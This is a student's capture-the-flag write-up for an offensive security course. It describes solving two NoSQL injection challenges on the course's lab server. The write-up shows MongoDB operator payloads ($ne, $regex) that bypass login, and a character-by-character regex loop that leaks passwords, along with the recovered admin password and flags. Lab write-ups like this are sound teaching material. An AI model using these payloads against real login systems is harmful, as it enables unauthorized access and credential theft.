



# CSGY 9223 Intro to Offensive Security
# Week 12 Challenges
# nam10102

## Challenge - NoSQL-1
```
Find the secret credentials hidden behind a login portal—exploit weaknesses to access them and reveal the flag!

http://offsec-chalbroker.osiris.cyber.nyu.edu:10000
```



This one took some local testing to learn how to send in various payloads. For instance, to send in the query operators, I had to send in a new dictionary item:

```python
data = {"username": {"$ne": ""}, "password": "pass"}
```
Once I got the hang of this, I was able to send the following payload to the server using my noslq1_solver script:

```python
data = {"username": {"$ne": ""}, "password": {"$ne": ""}}
```
This authenticated my request but gave me a new challenge. Leak the password to get the flag. 

```
{'authenticated': True, 'error': '', 'message': 'Yay, do did it! Submit the password as flag.'}
```

I tried a sample regex query operator:

```python
leaked_password = "flag{"
data = {"username": {"$ne": ""}, "password": {"$regex": f"^{leaked_password}"}}
```
And this was successful, so I created a looping operation to go through all the characters (number, letters and punctuation), appending each new successful login to the leaked password.

This wasn't straight forward eather, I had to make sure to escape the regex operators like +, * and . to keep it from ignoring characters or strings of characters.

```python
data = {"username": {"$ne": ""}, "password": {"$regex": f"^{leaked_password}{re.escape(char)}"}}
```

The looping operated ended when the leaked password ended in "}". 

```python
Leaked password so far: flag{n0_w4y_y0u_f0und_sup3r_s3cr3t_p4ssw0rd_n0w_try_t0_h4ck_n4s4_0000000000000000}
```

## Challenge - Nuclear Code Break-In
```
Your mission: Infiltrate the admin's account to uncover the codes of nuclear weapons.

http://offsec-chalbroker.osiris.cyber.nyu.edu:10001
```


This one looked pretty straight forward. First I had to determine if "admin" was the target username after creating a dummy profile for "nam10102":

```python
Sending request to http://offsec-chalbroker.osiris.cyber.nyu.edu:10001/api/login with data: {'username': 'admin', 'password': {'$ne': 'nam10102'}}
{'message': 'Login successful'}
```
Once I was usre "admin" was the target username, I proceeded to leak the password for "admin" using the same looping function (with minor modifications).

```python
data = {"username": {"$ne": ""}, "password": {"$regex": f"^{leaked_password}{re.escape(char)}"}}

Leaked password so far: ###AdminSe@#OdkopSKDacurePass123!
No more characters to leak.
```
Then I logged in the the "admin" and leaked password and the description displayed the code:

```python
Description: flag{y0u_h4v3_n0w_4cc3ss_t0_nucl34r_w34p0n_0000000000000000}
```

